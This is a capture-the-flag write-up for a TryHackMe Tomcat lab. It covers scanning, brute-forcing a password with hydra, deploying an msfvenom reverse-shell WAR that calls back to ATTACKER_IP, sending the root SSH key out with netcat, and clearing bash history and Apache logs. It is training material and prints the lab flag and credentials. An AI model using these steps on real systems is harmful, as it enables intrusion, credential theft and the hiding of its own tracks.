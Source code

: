 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance
Time for some quick port scans and recon (god bless the creators of `rustscan`):
```shell-session
$ rustscan -b 4500 -a TARGET_IP -r 1-65535 --ulimit 5000 -t 2000 -- -oN rustscan_port_scan.txt 
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1234/tcp open  hotline syn-ack
8009/tcp open  ajp13   syn-ack


$ rustscan -b 4500 -a TARGET_IP -p 22,80,1234,8009 --ulimit 5000 -t 2000 -- -sV -oN rustscan_service_scan.txt
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Some directory enumeration:
```shell-session
$ gobuster dir -t 64 -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gobuster_common.txt 
$ cat gobuster_common.txt       
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/guidelines           (Status: 301) [Size: 319] [--> http://TARGET_IP/guidelines/]
/index.html           (Status: 200) [Size: 168]
/protected            (Status: 401) [Size: 460]
/server-status        (Status: 403) [Size: 301]
```

 > What directory can you find, that begins with a "g"?
 > 
 > Answer: `guidelines`
 
Visiting the `/guidelines/` directory, we only see a text saying: `Hey bob, did you update that TomCat server?`. 

> Whose name can you find from this directory?
> 
> Answer: `bob`


Moreover, requesting the `protected` directory gives us an authentication popup...
> What directory has basic authentication?
> 
> Answer: `protected`

Let's try to brute force it using hydra :)
```shell-session
$ hydra -l bob -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -s 80 -f TARGET_IP http-get /protected
...
...
[80][http-get] host: TARGET_IP   login: bob   password: bubbles
```

> What is bob's password to the protected part of the website?
> 
> Answer: `bubbles`

When we log into the `protected` page, we're greeted with the following page:
![](protected_page_moved.png)

As we found out from the port scans earlier, there's a _Apache Tomcat server_ running on port **1234**. Let's try and log into the portal there by requesting: `http://TARGET_IP:1234/manager/`. This presents us with a familiar authentication service. If we use the credentials: `bob:bubbles`, we get access to the server panel!

> What other port that serves a webs service is open on the machine?
> 
> Answer: `1234`



The version number for the tomcat server can be found at the bottom of the `manager` page...
> Going to the service running on that port, what is the name and version of the software?
> (Answer format: Full_name_of_service/Version)
> 
> Answer: `Apache Tomcat/7.0.88`

There's a total of 5 documentation files mentioned on the tomcat manager page, so no need to use `nikto` yet (also, it's a bit confusing to use ngl):
> How many documentation files did ~~Nikto~~ you identify?
> 
> Answer: `5`


> What is the server version (run the scan against port 80)?
> 
> Answer: `Apache/2.4.18`


> What version of Apache-Coyote is this service using?
> 
> Answer: `1.1`


Armed with all this info on version numbers and stuff, let's see what exploits we can make use of to get access to the target machine:

## Gaining Access
Now... If we do as the room instructs, this section will usually be _2_ parts, but since we can deploy a file on the `manager` page, we can easily get a reverse shell, (which, moving further, you'll see is a root shell!). Let's begin with generating a suitable payload:
```shell-session
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f war > reverse.war
```

We're generating a `WAR` file as a payload since that's what we can upload from the `manager` page: 
![](war_file_upload.png)

After the file is deployed, start a listener on the specified port on your machine (4444 in this case), like so:
```shell-session
$ nc -nvlp 4444
```

Now, when we request the URL: `http://TARGET_IP:1234/reverse/`, we'll receive a connection on our netcat listener, and we can move onto stabilizing the shell:
```shell-session
$ nc -nvlp 4444          
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 44662

python -c "import pty; pty.spawn('/bin/bash')"
root@ip-TARGET_IP:/# ^Z
zsh: suspended  nc -nvlp 4444

$ stty raw -echo && fg
[1]  + continued  nc -nvlp 4444

export TERM=xterm-256-color
root@ip-TARGET_IP:/# whoami
root

root@ip-TARGET_IP:/# ls /root
flag.txt  snap

root@ip-TARGET_IP:/# cat /root/flag.txt 
`ff1fc4a81affcc7688cf89ae7dc6e0e1`
```

***!!BONUS STEP!!***

Now, even if we have a rooted reverse shell, it's still a hassle to go through uploading the reverse shell and stabilizing it again and again if we plan to exploit this machine later on, so let's get the ssh private key for persistence, as well as clean up the `/reverse.war` file we uploaded:
```shell-session

## On our machine:
$ nc -nvlp 8888 > toysrus_id_rsa

## On target machine;
root@ip-TARGET_IP:/# ssh-keygen
## Empty passphrases...
root@ip-TARGET_IP:/# nc ATTACKER_IP 8888 -w 3 < /root/.ssh/id_rsa
```

Nice! Now we have a persistent access by `ssh`, let's clean up some stuff before we're done...
```shell-session
root@ip-TARGET_IP:/# echo "" > /root/.bash_history 
root@ip-TARGET_IP:/# rm /usr/local/tomcat7/webapps/reverse.war 
root@ip-TARGET_IP:/# rm -rf /usr/local/tomcat7/webapps/reverse/
root@ip-TARGET_IP:/# rm -rf /usr/local/tomcat7/work/Catalina/localhost/reverse
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/access.log 
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/error.log 
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/other_vhosts_access.log 

## Just for good measure...
root@ip-TARGET_IP:/# echo "" > /root/.bash_history
```

And we're done!

> What text is in the file `/root/flag.txt`?
> 
> Answer:  `ff1fc4a81affcc7688cf89ae7dc6e0e1`


## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [ToyRUs](https://tryhackme.com/room/toolsrus)
